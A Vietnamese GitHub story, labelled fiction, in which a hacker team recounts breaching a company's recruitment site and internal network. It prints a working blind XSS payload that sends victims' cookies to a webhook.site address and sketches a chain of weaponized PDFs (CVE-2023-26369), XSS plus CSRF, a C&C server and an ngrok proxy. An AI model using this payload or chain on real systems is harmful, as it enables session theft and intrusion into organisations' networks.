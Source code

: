 # Tôi đã chiếm quyền điều hành cả một hệ thống mạng của một hệ thống như thế nào.

## Lưu ý mọi nội dung dưới đây chỉ là hư cấu !

Bài viết sẽ đi xây dựng các lối tấn công thực tế các con đường khai thác APT.

Các kỹ thuật lỗ hổng sẽ được in đậm để các bạn có thể research.

Bài viết được hỗ trợ giàn ý bởi AI và các lỗ hổng realcase trong cuộc sống

cre: VHAE và những giấc mơ ;D

# Chương 1: Mở bài

### Phần 2: Bắt tay hành động.

Câu truyện bắt đầu khi tôi liên hệ lại với 2 người bạn ở trường cũ là Hoàng ( Chuyên gia bảo mật website ) và Anh ( Một blackhat ) chúng tôi bắt đầu cuộc tấn công với hệ thống và đặt tên nhóm là XTAE.

X - eXploit 
T - Technology 
A - Access 
E - Ethically

st1 : Chúng tôi đã bắt đầu tìm kiếm các thông tin về hệ thống bao gồm nhân viên, quản lý, tổng giám đốc, hồ sơ tài chính và các báo cáo liên quan....

st2 : Sau khi đã có thông tin base chúng tôi bắt đầu rà quét thu thập các địa chỉ ip port, web và subdomain tại nhiều nơi như Shodan...

st3 : Chúng tôi phân công nhau tìm kiếm các lỗ hổng trên các thông tin thu thập được hầu hết chỉ là các lỗi dos và client.

Đã 3 ngày trôi qua và webhook của Vũ đã trả về dữ liệu về lỗ hổng XSS của một trang web tuyển dụng của hệ thống.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/044db157-83fc-4213-a7c2-a8d532b33fda)



### Phần 3: Manh mối đầu tiên.

Với dữ liệu đổ về từ XSS Hoàng đã chuẩn đoán đây là lỗ hổng blind stored xss với 

payload xss ban đầu của Vũ  : 
```
'"><img src=x onerror='window.location.replace("https://webhook.site/0634543a?data="+document.cookie)'>
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/43e2b79e-58a0-4129-9919-2752f7ffc7a7)

Với dữ liệu đồ về có lẽ ta đã thấy cookie của người dùng, chúng tôi nhanh chóng tiến hành thêm mã cookie xác thực vào trình duyệt để truy cập vào tài khoản kiểm duyệt đó nhưng không có gì xảy ra.
Tại sao ? đó là một câu nói xảy ra trong đầu 3 chúng tôi, liệu có phải các dữ liệu xác thực đã được đính `cờ httponly` ? 

Không trước đó Vũ đã kiểm tra trang web và nó xác thực người dùng qua TOKEN và không có cờ `httponly` vậy tại sao chúng tôi không truy cập được tài khoản đó qua cookie đã thu thập được.

Để làm rõ việc này Hoàng đã xây dựng lại mã khai thác xss để chúng tôi có thể thu thập được nhiều thông tin hơn ngoài việc thu thập cookie bằng document.cookie Hoàng đã thêm một vài trường vào payload cũ của Vũ

```
document.documentElement.outerHTML để thu thập toàn hộ html trang web
window.location.href để thu thập url trang web đang truy cập
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2e8c8f00-d7dd-421e-afa4-058a4665a40c)


Sau khi dữ liệu được trả về chúng tôi đã biết nguyên nhân từ url 172.50.24.21 là một ip private vậy chúng tôi đoán trang web tuyendung.congtyx.com sẽ nhận dữ liệu về một máy chủ và các nhân sự sẽ truy cập vào một webserver nội bộ qua mạng công ty hoặc vpn để duyệt hồ sơ các thành viên. Từ đó cũng lý giải vi sao chúng thôi sử dụng cookie đã thu thập được vào trang web tuyển dụng không được vì 2 trang web có chức năng xác thực khác nhau - Điều này thực sự thú vị vì nó sẽ làm tăng tính bảo mật của website và tránh để lộ thông tin ra bên ngoài môi trường internet cơ bản sơ đồ sẽ như sau.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/fb863d78-e281-4454-ab57-44959f0b9512)

Vậy không có quyền truy cập vào private vậy thì chúng tôi lấy thêm được dữ liệu gì từ lỗ hổng này. Kiểm tra mã html thu thập được chúng tôi biết các ứng viên sẽ nộp hồ sơ dạng pdf và nếu được duyệt hồ sơ sẽ được gửi lên cấp trên điều đặc biệt là các đường dẫn này ko preview mà sẽ tải thẳng về máy cá nhân và xem trên đó( tôi đã thử các lỗ hổng File upload vulnerabilities nhưng server chỉ cho lưu file pdf và lưu trong cdn) .Ý tưởng ban đầu của chúng tôi sẽ ghi đè mã html khi nhân sự tải xuống file pdf của tôi thay vì đó là pdf trên webserver thì đó là mội loại virut tôi cài cắm vào, tôi phân chia cho Anh thiết kế `máy chủ c&c` để quản lý các PC mà chúng tôi đã takeover.

1 ngày, 2 ngày, 1 tuần, 2 tuần vẫn chưa thấy phải hồi gì chúng tôi đã có rất nhiều câu hỏi: 

Liệu nhân sự đó không mở file pdf virut của tôi ? 

Các máy tính đã có diệt virut mới và xoá file của tôi ?

Code của tôi không hoạt động ?

Máy chủ cá nhân không cho phép tải các file khác ? 


Trong nhiều ngày chúng tôi đã osint nhiều thông tin về công ty và biết rất nhiều người dùng Adobe Acrobat tôi liền liên hệ cho Anh để tìm hiểu thêm về các lỗ hổng zeroday về một phần mềm này với một dân ngầm như Anh đã cho tôi ngay POC mới nhất về `CVE-2023-26369` tôi tiến hành xây dựng mã khai thác theo cve mà Anh cung cấp cùng lúc đó Hoàng kết hợp lỗi `XSS và CSRF` để tự tiến hành tự động xác nhận kiểm duyệt hồ sơ của tôi lên cấp trên để có thể lây lan được nhiều ngừoi hơn.


### Phần 3: Tia sáng cuối con đường:

Sau nhiều ngày chúng tôi đã thử nhiều cách và bùm có một pc kết nối đến chúng tôi và có chính là nhân viên thungoc.

Chúng tôi tiến hành xây dựng một proxy ngrok cho phép chúng tôi truy cập trang web nội bộ ngoài internet và phân công nhiệm vụ Hoàng sẽ tiến hành tìm kiếm thêm các lỗ hổng trong web nội bộ, tôi và Anh sẽ thực hiện rà soát các dải mạng private và tìm cách khai thác chúng....

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2806ebd9-f64a-4dbf-aa0e-2c873ab0b52b)


hết chương 1:
các keyword : 
- CVE-2023-26369
- XSS 
- CSRF
- Máy chủ c&c
- Ngrok proxy
- osint
- shodan
- File upload vulnerabilities
- cdn
- httponly cookie

Nếu các bạn thích về chủ đề này hay thì mình sẽ làm típ hehe ;()

Bài viết sẽ có nhiều lỗi sai và nhiều chi tiết thiếu sót bạn hãy góp ý bằng cách cmt phía dưới cảm ơn bạn.
